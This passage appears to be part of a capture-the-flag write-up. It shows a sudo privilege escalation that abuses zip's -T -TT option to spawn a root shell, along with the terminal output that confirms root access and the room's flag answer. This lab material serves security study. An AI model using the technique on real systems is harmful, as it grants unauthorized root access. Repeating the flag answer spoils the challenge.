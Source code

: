 ```sh
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

```sh
merlin@ubuntu:~$ sudo zip $TF /etc/hosts -T -TT '/bin/bash #'
updating: etc/hosts (deflated 31%)
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
```

```sh
root@ubuntu:/root# cat root.txt 
THM{Z1P_1S_FAKE}
```

> Réponse #2: **THM{Z1P_1S_FAKE}**
